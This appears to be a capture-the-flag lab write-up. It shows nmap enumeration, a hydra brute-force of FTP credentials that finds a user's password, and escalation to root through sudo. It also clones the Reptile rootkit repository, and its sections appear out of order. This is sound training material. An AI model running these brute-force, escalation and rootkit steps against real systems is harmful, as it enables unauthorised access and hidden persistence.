   ```
  Matching Defaults entries for jenny on wir3:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User jenny may run the following commands on wir3:
      (ALL : ALL) ALL
  jenny@wir3:/$ 
  sudo su
  
  sudo su
  root@wir3:/# 
  whoami
  
  whoami
  root
  root@wir3:/# 
  cd
  
  cd
  root@wir3:~# 
  git clone https://github.com/f0rb1dd3n/Reptile.git
  ```


## 🔍 Enumeration

- Starting with Nmap scan. Gobuster did nothing.

  ```
  nmap -sC -sV -T5 -p- 10.10.73.168

  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 2.0.8 or later
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  ```
  
- Now, brute force FTP credentials.

  ```
  hydra -l jenny -P /rockyou.txt ftp://10.10.73.168
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-20 22:04:17
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
  [DATA] attacking ftp://10.10.73.168:21/
  [21][ftp] host: 10.10.73.168   login: jenny   password: 987654321
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-20 22:04:42
  ```
  
- Perfect, let's login and see what's there.
